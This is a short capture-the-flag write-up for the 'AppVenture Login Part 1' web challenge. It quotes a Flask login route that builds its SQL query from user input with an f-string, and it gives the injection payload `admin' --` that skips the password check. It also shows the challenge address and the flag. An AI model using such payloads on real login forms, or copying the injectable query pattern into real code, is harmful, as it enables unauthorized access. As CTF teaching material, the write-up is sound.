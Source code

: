 ```yaml
---
title: "[AVCTF2021] AppVenture Login Part 1"
slug: avctf2021-av-login-p1
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web]
---
```


> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knowledge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

`````sql
select id from users where name='admin' --' and password=''
`````

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```
flag{you_can_pass_cs6131_now}
```

Flag obtained
